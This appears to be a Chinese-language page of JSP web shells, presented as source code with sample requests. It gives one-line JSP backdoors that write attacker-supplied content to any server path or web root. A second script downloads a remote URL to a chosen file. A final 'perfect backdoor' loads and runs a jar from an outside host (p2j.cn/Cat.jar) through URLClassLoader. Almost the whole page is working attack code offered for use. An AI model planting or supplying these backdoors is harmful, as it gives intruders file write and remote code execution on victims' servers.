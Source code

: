 ###把字符串编码后写入指定文件的：

1.1

    <%new java.io.FileOutputStream(request.getParameter("f")).write(request.getParameter("c").getBytes());%>

请求：http://localhost:8080/Shell/file.jsp?f=/Users/yz/wwwroot/2.txt&c=1234

写入web目录：

1.2

    <%new java.io.FileOutputStream(application.getRealPath("/")+"/"+request.getParameter("f")).write(request.getParameter("c").getBytes());%>

请求：http://localhost:8080/Shell/file.jsp?f=2.txt&c=1234

2.1

    <%new java.io.RandomAccessFile(request.getParameter("f"),"rw").write(request.getParameter("c").getBytes()); %>

请求：http://localhost:8080/Shell/file.jsp?f=/Users/yz/wwwroot/2.txt&c=1234

写入web目录:

2.2

    <%new java.io.RandomAccessFile(application.getRealPath("/")+"/"+request.getParameter("f"),"rw").write(request.getParameter("c").getBytes()); %>
    
请求：http://localhost:8080/Shell/file.jsp?f=2.txt&c=1234

###下载远程文件(不用apache io utils的话没办法把inputstream转byte,所以很长…)

    <%
        java.io.InputStream in = new java.net.URL(request.getParameter("u")).openStream();
        byte[] b = new byte[1024];
        java.io.ByteArrayOutputStream baos = new java.io.ByteArrayOutputStream();
        int a = -1;
        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }
        new java.io.FileOutputStream(request.getParameter("f")).write(baos.toByteArray());
    %>

请求：http://localhost:8080/Shell/download.jsp?f=/Users/yz/wwwroot/1.png&u=http://www.baidu.com/img/bdlogo.png

下载到web路径:

    <%
        java.io.InputStream in = new java.net.URL(request.getParameter("u")).openStream();
        byte[] b = new byte[1024];
        java.io.ByteArrayOutputStream baos = new java.io.ByteArrayOutputStream();
        int a = -1;
        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }
        new java.io.FileOutputStream(application.getRealPath("/")+"/"+ request.getParameter("f")).write(baos.toByteArray());
    %>

请求：http://localhost:8080/Shell/download.jsp?f=1.png&u=http://www.baidu.com/img/bdlogo.png

###反射调用外部jar,完美后门

如果嫌弃上面的后门功能太弱太陈旧可以试试这个：

    <%=Class.forName("Load",true,new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL(request.getParameter("u"))})).getMethods()[0].invoke(null, new Object[]{request.getParameterMap()})%>

请求：http://192.168.16.240:8080/Shell/reflect.jsp?u=http://p2j.cn/Cat.jar&023=A


详情：[p2j.cn](http://javaweb.org/?p=1627)
